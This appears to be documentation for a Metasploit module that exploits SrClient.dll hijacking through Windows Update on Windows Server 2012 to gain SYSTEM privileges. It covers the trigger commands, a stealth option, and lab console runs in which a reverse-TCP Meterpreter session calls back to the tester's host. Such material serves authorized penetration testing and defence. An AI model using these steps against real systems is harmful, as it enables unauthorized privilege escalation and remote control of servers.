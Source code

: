 ## Vulnerable Application

All editions of Windows Server 2012 (but not 2012 R2) are vulnerable to DLL hijacking due to the way `TiWorker.exe` will try to call the
non-existent `SrClient.dll` file when Windows Update checks for updates.
This issue can be leveraged for privilege escalation if %PATH% includes directories that are writable by low-privileged users.
The attack can be triggered by any low-privileged user and does not require a system reboot.

If run with default settings, the module will enumerate the %PATH% directories and try to find one that is writable by the current user.
Alternatively, a specific %PATH% directory can be provided via the `WRITABLE_PATH_DIR` option.
If a writable %PATH% directory is found, the module will write the payload with the name `SrClient.dll` to the vulnerable directory.

Next, the module will try to obtain the Windows Update configuration.
If Windows Update is not set to never check for updates, the module will use  the `WUAUCLT /DetectNow` command to trigger the payload.
This command will instruct Windows Update to detect and download available updates in the background.
If Windows Update is set to never check for updates, `WUAUCLT /DetectNow` will not work,
and the module will trigger the payload via the `WUAUCLT /SelfUpdateManaged` command.
This command launches the Windows Update window in the Control Panel and tells it to start checking for updates using
Windows Server Update Services (WSUS).
If stealth is required, you can set the `STEALTH_ONLY` option to prevent the module from proceeding with exploitation in this scenario.
If the module fails to obtain the Windows Update configuration, it will use `WUAUCLT /SelfUpdateManaged` to trigger the payload
unless the `STEALTH_ONLY` option is set. In the latter case, it will use the `WUAUCLT /DetectNow` command.

This exploit has several limitations
- The attack won't work when Windows Update is already checking for/downloading/installing updates on the target
- The attack won't work twice in a row, at least not in quick succession (because the attack causes Windows Update to check for updates)

If the module completes, but no session is created, check if `TiWorker.exe` is running on the target. If so, you have several options:
- Wait until `TiWorker.exe` is no longer running before launching the module again.
- Set `Wfsdelay` to a rather long period (at least half an hour), and run the module again.
- Reboot the machine if you have persistence on the target and the current user has shutdown privileges
(not recommended in a real world environment)

This module has been successfully tested on Windows Server 2012 (x64).

Windows Server 2012 VM images are available at the Microsoft Evaluation Center
[here](https://www.microsoft.com/en-us/evalcenter/evaluate-windows-server-2012).

## Verification Steps
1. Start msfconsole
2. Do: `use modules/exploit/windows/local/srclient_dll_hijacking`
3. Do: `set SESSION [SESSION ID]`
4. Do: `run`

## Options
### WRITABLE_PATH_DIR
The full path to a writable %PATH% directory to write the payload to. If this is not set,
the module will enumerate the %PATH% directories and try to find one that is writable by the current user.
### STEALTH_ONLY
If this is enabled, the module will only exploit the target if this is possible by triggering the payload via the
`WUAUCLT /DetectNow` command, which will launch Windows Update in the background.
This means that exploitation will not proceed if Windows Update is set to never check for updates on the target.

## Scenarios
### Windows 2012 x64 - %PATH% enumeration (default) with Verbose set to true
```
msf6 exploit(windows/local/srclient_dll_hijacking) > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  3         meterpreter x64/windows  WIN-FCDUOQDT1NB\wynter @ WIN-FCDUOQDT1NB  192.168.91.12:8443 -> 192.168.91.16:49157 (192.168.91.16)

msf6 exploit(windows/local/srclient_dll_hijacking) > show options 

Module options (exploit/windows/local/srclient_dll_hijacking):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   SESSION            3                yes       The session to run this module on.
   STEALTH_ONLY       false            no        Only exploit if the payload can be triggered without launching the Windows Update UI)
   WRITABLE_PATH_DIR                   no        Path to a writable %PATH% directory to write the payload to.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.91.12    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Server 2012 (x64)


msf6 exploit(windows/local/srclient_dll_hijacking) > run

[*] Started reverse TCP handler on 192.168.91.12:4444 
[*] Executing automatic check (disable AutoCheck to override)
[*] Target is Windows 2012 (6.2 Build 9200).
[*] Obtaining group information for the current user WIN-FCDUOQDT1NB\wynter...
[*] 
[*]     Everyone
[*]     BUILTIN\Users
[*]     NT AUTHORITY\INTERACTIVE
[*]     CONSOLE LOGON
[*]     NT AUTHORITY\Authenticated Users
[*]     NT AUTHORITY\This Organization
[*]     NT AUTHORITY\Local account
[*]     LOCAL
[*]     NT AUTHORITY\NTLM Authentication
[*] 
[*] Checking for writable directories in %PATH%...
[*] 
[*]     Checking permissions for C:\Windows\system32
[*]     Checking permissions for C:\Windows
[*]     Checking permissions for C:\Windows\System32\Wbem
[*]     Checking permissions for C:\Windows\System32\WindowsPowerShell\v1.0\
[*]     Checking permissions for C:\wynter
[*] 
[+] WIN-FCDUOQDT1NB\wynter has write permissions to the following %PATH% directories:
[*] 
[*]     C:\wynter
[*] 
[+] The target appears to be vulnerable.
[*] Writing 5120 bytes to C:\wynter\SrClient.dll...
[*] Trying to trigger the payload in the background via the shell command `wuauclt /detectnow`
[*] Sending stage (201283 bytes) to 192.168.91.16
[*] Meterpreter session 4 opened (192.168.91.12:4444 -> 192.168.91.16:49159) at 2021-02-16 08:59:24 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
### Windows 2012 x64 - WRITABLE_PATH_DIR option set, Verbose set to false
```
msf6 exploit(windows/local/srclient_dll_hijacking) > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  8         meterpreter x64/windows  WIN-FCDUOQDT1NB\wynter @ WIN-FCDUOQDT1NB  192.168.91.12:8443 -> 192.168.91.16:49158 (192.168.91.16)

msf6 exploit(windows/local/srclient_dll_hijacking) > show options 

Module options (exploit/windows/local/srclient_dll_hijacking):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   SESSION            8                yes       The session to run this module on.
   STEALTH_ONLY       false            no        Only exploit if the payload can be triggered without launching the Windows Update UI)
   WRITABLE_PATH_DIR  c:\wynter        no        Path to a writable %PATH% directory to write the payload to.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.91.12    yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Server 2012 (x64)


msf6 exploit(windows/local/srclient_dll_hijacking) > run

[*] Started reverse TCP handler on 192.168.91.12:5555 
[*] Executing automatic check (disable AutoCheck to override)
[*] Target is Windows 2012 (6.2 Build 9200).
[*] Obtaining group information for the current user WIN-FCDUOQDT1NB\wynter...
[*] 
[*] Checking for writable directories in %PATH%...
[*] 
[+] WIN-FCDUOQDT1NB\wynter has write permissions to c:\wynter
[+] The target appears to be vulnerable.
[*] Writing 5120 bytes to C:\wynter\SrClient.dll...
[!] Because Windows Update is set to never check for updates, triggering the payload requires launching the Windows Update window on the target.
[*] Trying to trigger the payload via the shell command `wuauclt /selfupdatemanaged`
[*] Sending stage (201283 bytes) to 192.168.91.16
[*] Meterpreter session 9 opened (192.168.91.12:5555 -> 192.168.91.16:49160) at 2021-02-16 09:12:28 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```
